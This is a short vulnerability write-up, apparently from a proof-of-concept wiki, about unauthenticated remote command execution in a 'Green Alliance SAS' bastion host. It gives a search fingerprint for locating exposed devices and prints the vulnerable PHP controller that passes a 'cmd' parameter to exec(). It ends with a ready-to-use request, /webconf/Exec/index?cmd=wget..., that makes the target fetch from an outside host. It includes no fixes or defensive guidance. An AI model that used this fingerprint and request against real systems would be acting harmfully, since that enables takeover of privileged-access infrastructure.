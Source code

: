 # Green Alliance SAS Bastion Machine Exec remote command execution vulnerability

## Vulnerability Description

Green Alliance SAS Bastion Machine Exec remote command execution vulnerability

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Green League SAS Fortress</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="'/needUsbkey.php?username='"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1687843929584-e793a136-93ec-4b19-8ee9-5738c91681e8-20230810133806265.png)

The vulnerability exists in the file ExecController.php file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691645538909-d812cd3c-58f8-4325-b91e-456dce6b9a3c.png)

```php
<?php
  require_once 'Nsc/Websvc/Response.php';
class ExecController extends Cavy_Controller_Action {

  var $models = 'no';

  public function index() {
    $command = $this->_params['cmd'];
    $ret = 0;
    $output = array();
    exec($command,$output,$ret);
    $result = new StdClass;
    if ($ret != 0) {
      $result->code = Nsc_Websvc_Response::EXEC_ERROR;
      $result->text = "exec error";
    }
    else {
      $result->code = Nsc_Websvc_Response::SUCCESS;
      //			$result->text = implode("\n",$output);
      $result->text = "WEBSVC OK";
    }
    $this->_render(array('result'=>$result),'/websvc/result');
  }
}
?>
```

Verify POC

```php
/webconf/Exec/index?cmd=wget%20xxx.xxx.xxx
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691645555190-0e9d0dbb-97bc-4569-9357-e0bf65c3138d.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691645814709-0b0ac94f-1899-4cfb-9751-7037cfecd3ef.png)